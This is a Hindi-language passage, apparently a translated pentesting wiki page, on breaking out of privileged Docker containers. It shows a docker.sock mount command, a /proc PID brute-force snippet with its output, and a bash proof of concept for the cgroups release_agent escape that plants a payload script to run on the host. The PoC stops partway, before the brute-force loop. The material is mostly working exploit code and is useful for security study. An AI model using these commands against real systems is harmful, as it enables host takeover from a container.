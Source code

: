 यदि आपको डॉकर कंटेनर से बाहर निकलने की आवश्यकता है, तो आप निम्नलिखित चरणों का पालन कर सकते हैं:

1. डॉकर सॉकेट के साथ एक नया डॉकर कंटेनर चलाएं: `docker run -v /var/run/docker.sock:/var/run/docker.sock -it <image>`
2. अब आप डॉकर कंटेनर के अंदर होंगे और आपको डॉकर कंटेनर के बाहरी डॉकर डेमन के साथ संपर्क स्थापित करने की अनुमति मिलेगी।

इन तकनीकों का उपयोग करके आप डॉकर कंटेनर से बाहर निकल सकते हैं और उच्चतम अधिकार प्राप्त कर सकते हैं।
```bash
root@host:~$ COUNTER=1
root@host:~$ while [ ! -f /proc/${COUNTER}/root/findme ]; do COUNTER=$((${COUNTER} + 1)); done
root@host:~$ echo ${COUNTER}
7822
root@host:~$ cat /proc/${COUNTER}/root/findme
findme
```
### सब कुछ मिलाकर रखना <a id="putting-it-all-together"></a>

इस हमले को पूरा करने के लिए brute force तकनीक का उपयोग किया जा सकता है ताकि `/proc/<pid>/root/payload.sh` पथ के लिए pid को अनुमान लगाया जा सके, प्रत्येक अवधि में अनुमानित pid पथ को cgroups `release_agent` फ़ाइल में लिखा जाए, `release_agent` को ट्रिगर किया जाए, और देखें कि क्या एक आउटपुट फ़ाइल बनाई जाती है।

इस तकनीक के साथ एकमात्र सावधानी यह है कि यह किसी भी तरीके से छिपा हुआ नहीं है, और pid गिनती को बहुत ऊँचा कर सकता है। क्योंकि कोई लंबे समय तक चलने वाली प्रक्रियाएं चलाई नहीं जाती हैं, इसलिए यह संभावित रूप से सुरक्षितता समस्याओं का कारण नहीं बनेगा, लेकिन इस पर मेरे वचन पर विश्वास न करें।

नीचे दिए गए PoC में इन तकनीकों का अमल किया गया है ताकि cgroups `release_agent` की कार्यक्षमता का उपयोग करके एक विशेषज्ञता वाले कंटेनर से बाहर निकलने के लिए पहले Felix के मूल PoC से अधिक सामान्य हमला प्रदान किया जा सके:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
```
